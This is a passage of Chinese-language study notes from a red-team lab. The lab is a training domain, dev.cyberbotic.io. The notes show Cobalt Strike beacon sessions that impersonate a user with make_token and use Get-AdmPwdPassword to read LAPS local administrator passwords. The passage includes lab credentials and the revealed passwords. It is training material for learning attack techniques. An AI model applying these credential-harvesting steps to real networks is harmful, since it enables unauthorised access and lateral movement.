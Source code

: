 
ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 8/28/2022 8:58:44 AM

```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661471899909.png)

jking在DEV\1st Line Support组


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661472073529.png)


在WKSTN-2上make_token以后也可以看到密码
```
beacon> make_token DEV\jking Purpl3Drag0n
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 40 bytes
[+] Impersonated DEV\nlamb
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 183 bytes
[+] received output:
#< CLIXML


ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : fk43i9785W8Cw5
ExpirationTimestamp : 8/28/2022 8:58:44 AM

```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661472378476.png)

但是在在WKSTN-1上make_token以后会报错，理论上应该也可以看到的，感觉lab不太稳定?


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661472458881.png)


使用上面得到的计算机密码，make_token，访问目标计算机

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 38 bytes
[+] received output:
wkstn-1
